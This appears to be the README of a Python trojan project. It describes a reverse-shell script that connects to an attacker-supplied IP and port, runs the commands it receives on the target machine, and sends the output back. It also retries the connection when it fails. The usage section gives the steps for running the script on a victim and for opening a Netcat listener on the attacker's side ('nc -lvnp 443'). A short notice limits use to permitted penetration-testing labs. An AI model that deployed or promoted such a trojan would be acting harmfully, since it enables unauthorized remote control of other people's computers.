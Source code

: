 # Python Trojan

## Overview
This is a trojan written in Python that establishes a connection with a remote server and listens for incoming commands. It executes the received commands and returns the output to the attacker. The script has been modified to accept the attacker's IP and port as user inputs for better flexibility.

## Features
- Persistent connection attempts to the attacker's server.
- Remote command execution.
- Multi-threaded execution to handle commands asynchronously.
- Dynamic input for IP and Port.

## How It Works
1. The script prompts the user to input the attacker's IP address and port.
2. It then attempts to connect to the provided IP and port.
3. If the connection is successful, it listens for commands from the attacker.
4. Commands received are executed on the target machine, and the output is sent back to the attacker.
5. If the connection fails, the script retries after a short delay.

## Requirements
- Python 3.x

## Usage
Run the script on the target machine:
```sh
python trojan.py
```

Enter the attacker's IP and port when prompted:
```sh
Attacker's IP: 192.x.x.x
Port: 443
```

On the attacker's machine, set up a listener using Netcat:
```sh
nc -lvnp 443
```

## Security Notice
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences.

## Observation
Upgrade is comming!

